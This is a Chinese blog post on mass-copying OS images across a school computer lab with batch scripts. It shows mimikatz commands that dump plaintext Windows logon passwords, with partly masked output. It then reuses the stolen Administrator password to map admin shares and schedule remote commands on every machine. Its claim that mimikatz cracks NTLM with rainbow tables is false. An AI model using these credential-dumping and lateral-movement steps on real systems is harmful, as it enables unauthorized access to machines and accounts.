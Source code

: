 
---
title: 批处理机房文件批量传输
date: 2015-10-17 00:00:00 +0800
tags: [bat]
categories: 
---

## <a name="89ucqc"></a>题记

计算机维护队将于次日在机房进行队员第一次培训会，培训会上的队员实操过程则需要使用到win7和PE镜像，工作人员（委员）不得不提前拷贝好镜像到每一台机子。于是便有了机房内通过网络批量传输文件的想法，实现之后可以大大减轻工作量，传输速度上瓶颈为100Mbps（机房网络配置），与普通USB3.0的U盘传输速率相比确实低了一大截，在传输速率上似乎不占优势，因此我们将多台主机作为源点传输数据，并行传输数据，大大提升了时间效率。

<div data-type="alignment" data-value="center" style="text-align:center">
  <div data-type="p">
    <div id="sdxuoz" data-type="image" data-display="block" data-align="center" data-src="https://cdn.yuque.com/yuque/0/2018/png/103147/1530282323573-b3ec65c0-c8fc-4dec-a92f-4da95966b6da.png" data-width="391">
      <img src="https://cdn.yuque.com/yuque/0/2018/png/103147/1530282323573-b3ec65c0-c8fc-4dec-a92f-4da95966b6da.png" width="391" />
    </div>
  </div>
  <div data-type="p"></div>
</div>

<!-- more -->

### <a name="hxqrtl"></a>机遇阶段

很凑巧，在同类型的机房中上实验课的时候一不小心执行了以下powershell指令：

```
Get-WmiObject -Class Win32_Share -Computername [computername]
# [computername] 代表主机名
```

意外的收获，默认共享居然没有被关闭，切安全策略~[偷笑]!

```
Name     Path                          Description
----     ----                          -----------
ADMIN$   C:\Windows                    远程管理
C$       C:\                           默认共享
D$       D:\                           默认共享
IPC$                                   远程 IPC
```

然而不出所料，我尝试通过net use空连接到旁边的机子时，被无情的拒之门外。要知道机房的电脑都是自带默认密码的。

```
net use z: \\[computername]\D$

为 '[computername]' 输入用户名:
发生系统错误 1223。
操作已被用户取消。
```

好吧，确实是个棘手的问题，因为不可能提前手动更改用户密码，因为机房的电脑自带还原程序（且不可恶意破坏），因此不得不废弃这个方案。于是编者剑走偏锋，掏出了一代神器[mimikatz\_trunk](http://blog.gentilkiwi.com/presentations)，利用这个神器(原理是通过彩虹表破解NTLM加密口令)可以轻易获取windows系统账户的明文密码。

#### <a name="uxiodh"></a>下载链接

* [Binaires](https://github.com/gentilkiwi/mimikatz/releases/latest)

* [Sources](https://github.com/gentilkiwi/mimikatz)

使用说明详参[README.md](https://github.com/gentilkiwi/mimikatz/blob/master/README.md)，下载后或编译后程序目录如下：



![image.png | left | 657x169](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282348556-f8855387-6730-4b14-ae05-6d72a8fecffa.png "")


我们接着运行如下命令即可获得账户明文密码：

```
# 提升权限
mimikatz # privilege::debug
Privilege '20' OK

# 获取密码
mimikatz # sekurlsa::logonpasswords

```

获取密码后部分结果如下：

```
# *是编者自己打上的马赛克，命令执行后输出的全为明文，下同
Authentication Id : 0 ; 298372 (00000000:00048d84)
Session           : Interactive from 1
User Name         : ******
Domain            : ****
Logon Server      : (null)
Logon Time        : 2015-10-16 20:54:11
SID               : S-1-5-21-*******-********-*********-1004
        msv :
         [00000003] Primary
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Flags    : I00/N01/L00/S01
         * NTLM     : 198469ad0**********ed7ddfadd94
         * SHA1     : 1018ac5781ab260******8b9d57fae11d3313a86
        tspkg :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ********
        wdigest :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ******
        kerberos :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : (null)
         * Domain   : MicrosoftOffice16_Data:SSPI:lxstart@outlook.com
         * Password : ******

```

### <a name="k6o6ss"></a>程序设计

既然获取到了一台机子的明文密码（账户名默认为Administrator），由于机房采用统一镜像进行安装，因此默认账户信息完全一致，那么，就可以跳到批量传输的阶段了。那么我们来做一个详尽的规划：[篇幅有限，下面只提供关键代码]

#### <a name="d8iolx"></a>获取局域网内的主机名列表

原理：通过net view获取局域网主机列表后进行字符串过滤筛选，得到最终的主机名列表并写入hosts.ini文件。

```
(for /f "eol=。 skip=3 tokens=1 delims=, " %%i in ('net view') do (
	for /f "tokens=1 delims=\ " %%a in ('echo %%i ^| findstr ^\') do (
		echo %%a
	)
)) >> hosts.ini
```

#### <a name="tnyvtu"></a>建立net use连接

```
# 将网络路径\\[hostname]\d$映射到z:\
net use z: \\[hostname]\d$ "******" /user:"administrator" /persistent:yes
```

在这之前需要先释放z:原本可能存在net use连接：

```
net use z: /delete
```

我们就可以直接通过访问z:来访问到目标机器的D盘根目录并进行文件操作了。

#### <a name="xotpxv"></a>复制文件

推荐使用xcopy命令，参数较简单易懂。

```
# 假设D:\已有win7.iso和PE.iso
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```

#### <a name="odxkpc"></a>批量复制

由于我们已经获取到主机名列表，则我们可以串行批量复制文件。

```
for /f  %%a in (hosts.ini) do (
	echo 正在处理%%a
	call :copyer %%a
	:: 删除映射，释放连接
	net use z: /delete /y
)

# 定义函数
:copyer
net use z: \\%~1\d$ "******" /user:"administrator" /persistent:yes
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```

#### <a name="850vsl"></a>多主机并行处理

将程序放置到多台主机下运行，划分主机名列表片段到不同的主机，则可同时执行不同的文件批量复制的任务。

#### <a name="zdiwbh"></a>最佳方案

这里涉及一种类似于细胞分裂的算法技术，在上面原有的基础上添加更能提高效率的解决方案。假设每人负责部署一台主机（用于批量复制文件），复制完46台机子需要(46-6)/6=7轮，开始说表述的每台机子带宽有限（下面的流程图则以一台源主机为例解释），因此传输速度也难以提升。

更合理的解决方案就是利用所有空闲切有镜像的主机的网络带宽，思路图对比大致如下：

* 传统
    



![image.png | left | 686x459](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282360282-26242597-1bcc-4ccf-a856-19fbd7ba6d09.png "")


* 并行化



![image.png | left | 692x439](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282373553-b57fcc30-f2fc-4d16-b7eb-20431a7cebad.png "")


关键要解决的问题是需要给下一台机器发送指令，分配给每台主机最优的复制队列：通过ipc\$获取远程at和time权限

```
# 建立ipc$连接
net use \\[hostname]\ipc$ "password" /user:"username"

# 获取主机时间，假设为19:00
net time \\[hostname]

# at 设置命令，假设transformListFile.bat包含了计算下一台机子需要复制到的目标队列的算法
at \\[hostname] 19:01 transformListFile.bat

```


